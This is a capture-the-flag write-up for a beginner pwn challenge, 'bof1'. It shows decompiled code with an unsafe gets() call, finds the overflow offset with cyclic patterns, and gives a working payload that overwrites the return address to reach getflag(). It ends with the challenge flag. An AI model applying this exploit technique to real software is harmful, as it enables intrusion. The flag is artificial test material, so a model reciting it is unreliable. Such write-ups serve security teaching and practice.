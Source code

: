# bof1
Pwn

## Challenge 

Simple bof. Get used to pwning and the toolset. Know the basics of how a program works, and how to exploit

	nc challs.hats.sg 1301

Reading:

	https://dhavalkapil.com/blogs/Buffer-Overflow-Exploit/
	https://www.exploit-db.com/docs/english/28475-linux-stack-based-buffer-overflows.pdf
	https://www.youtube.com/watch?v=fTGTnrgjuGA&t=2s (Ghidra Tutorial)
	https://www.youtube.com/watch?v=KWG7prhH-ks (pwning with gef, but also shows gdb basics for exploiting)

Tools:

	Ghidra (decompilation) / r2 (disassembly/debugger)
	GDB + GEF (debugger)

Author: @dickheadedzed

## Hint
Perhaps you actually managed to jump to getflag(), but the exploit still doesn't work? jump to getflag()+1. The reason why is explained in the binary itself.

## Solution

Decompile in Hopper

	int main() {
	    banner();
	    gets(&var_20);
	    printf("bof me daddy!  %s", &var_20);
	    return 0x0;
	}

	int getflag() {
	    rax = puts("\nHINT: you shoudn't jump straight to getflag");
	    rax = puts("but instead somewhere in the middle\n");
	    rax = puts("This is due to the stack alignment shifting (the value of rbp now has a '8' in the units place, which system() does not like)");
	    rax = 0x0;
	    rax = system("cat flag");
	    rsp = rsp + 0x8;
	    rbp = stack[2047];
	    return rax;
	}

Fuzz offset

	# pwn cyclic 46 | strace ./bof1
	--- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x616c6161616b} ---
	+++ killed by SIGSEGV +++
	Segmentation fault

	# pwn cyclic -l 0x616c6161616b
	[CRITICAL] Subpattern must be 4 bytes

	# pwn cyclic -l 0x6161616b
	40

Find address of getflag()

	(gdb) br getflag
	Breakpoint 1 at 0x4011f9

Payload
	
	$ # (python -c 'from pwn import *; print "A"*40 + p64(0x4011f9)') | nc challs.hats.sg 1301
	*** WELCOME TO bof1.c ***
	bof me daddy!  AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA?@
	HINT: you shoudn't jump straight to getflag
	but instead somewhere in the middle

	This is due to the stack alignment shifting (the value of rbp now has a '8' in the units place, which system() does not like)
	HATS{boffing_my_way_thru_l1fe}

## Flag

	HATS{boffing_my_way_thru_l1fe}
